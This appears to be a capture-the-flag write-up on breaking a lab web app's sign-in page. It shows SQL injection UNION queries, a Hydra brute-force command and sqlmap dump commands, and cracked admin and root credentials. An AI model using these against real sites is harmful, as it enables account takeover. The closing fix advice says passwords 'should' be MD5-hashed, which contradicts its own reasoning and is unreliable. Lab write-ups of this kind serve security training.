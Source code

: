 # Brute Force Sign In
- Method 1: Theres no limit to sign in requests so we can brute force it.
- Method 2: Because members page was vulnerable to an sql injection attack we can enumerate databases for credentials.

# Vulnerability Method 1

- Thanks to the vulnerability in search members:

``` sql
1 UNION SELECT table_name, table_schema FROM information_schema.tables
```

- Notice The Following:
    First name: db_default
    Surname : Member_Brute_Force

- It means we have a table called db_defaults inside Member_Brute_Force database.
  
- We can try to find all columns
    ``` sql
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```
- We Notice The Table db_default from the [First name: db_default] output has these columns:
    __id, username, password__

- We Know now __db_default__ columns, we can select __url, comment__:
``` sql
1 UNION SELECT username, password FROM Member_Brute_Force.db_default
```
- We Can Notice This: 

    ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
    First name: root
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

    ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
    First name: admin
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
- Surname in this case is the password field.
- It is encrypted with md5, so if we decode it we get the output: __shadow__
- If we Login with the credentials **admin** and **shadow** it gives us the flag:
  B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

# Method 2
- In our particular case, we know that the username __admin__ exists.
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt wordlist to use in this case.
- We can use Thc-Hydra: __sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:S=<Success-html-text>"__
- In our case the command would be __sudo hydra -l admin -P /Darkly/04_brute_force_sign-in/Ressources/wordlist.txt 192.168.1.38 http-get-form "/:page=signin&username=admin&password=^PASS^&Login=Login:S=flag"__
- Result is => [80][http-get-form] host: 192.168.1.38   login: admin   password: shadow
- We can also use that for "root" user.
- Also the password is exposed because the form method is GET.


# Vulnerability Method 3
- After Executing the command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" --dbs__ we notice a database named **Member_Brute_Force**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force --tables__ shows us a table named **db_default**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force -T db_default --dump__ dumps us enteries in that table.
- We can crack those password by running a Dictionary attack specifically 'md5_generic_passwd' provided by sqlmap.
- the result is as follows:
    Database: Member_Brute_Force
    Table: db_default
    [2 entries]
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
| 2  | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
+----+----------+-------------------------------------------+
- Now we can access this website as admin and root.


# Fix
- We can prevent SQL injections by using prepared statements and parameterized queries.
- Passwords should md5 encrypted because its a weak hashing algorithm.
- We can set limit to request sent by clients.
- We can use POST method when handling passwords and generaly handling form data to prevent exposure.